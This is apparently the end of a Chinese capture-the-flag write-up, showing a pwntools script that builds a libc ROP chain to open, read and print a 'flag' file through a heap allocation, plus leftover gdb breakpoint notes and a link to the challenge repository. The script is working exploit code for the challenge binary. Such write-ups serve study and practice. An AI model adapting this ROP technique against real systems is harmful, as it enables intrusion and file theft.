 ```
	exp = p64(libc.address + 0x26b72)	#rdi
	exp+= p64(a)
	exp+= p64(libc.address + 0x27529)	#rsi
	exp+= p64(b)
	exp+= p64(libc.address + 0x11c371)	#rdx
	exp+= p64(c) + p64(0)
	exp+= p64(libc.address + 0x4a550)	#rax
	exp+= p64(SYS_n)
	exp+= p64(libc.address + 0x11BB09)	#syscall
	return exp

buf = heap_addr+ 0x1000
ROP = Call(0, 0, buf, 0x10)		#read(0, buf, 0x10)
ROP+= Call(2, buf, 0, 0)		#open(buf, 0, 0)
ROP+= Call(0, 3, buf, 0x50)		#read(3, buf, 0x50)
ROP+= Call(1, 1, buf, 0x50)		#write(1, buf, 0x50)

#gdb.attach(sh, 'break *'+hex(proc_base + 0x1A84))

Buy(0x2C0, ROP+'\n')	

Exit()
sh.recvuntil('Goodbye!')
sh.send('flag\x00')

sh.interactive()

'''
PtrArr 0x202040
Free()	break *(0x0000555555554000+0x167B)
Malloc	break *(0x0000555555554000+0x18C3)

bulletname 0x555555555919
45EB0

gdb.attach(sh, 'break *'+hex(proc_base + 0x1A84))	
gdb.attach(sh, 'telescope '+hex(proc_base+0x4050) + ' 44')
'''
```

## 相关文件

[https://github.com/chennbnbnb/-2020-pwn1-gun](https://github.com/chennbnbnb/-2020-pwn1-gun)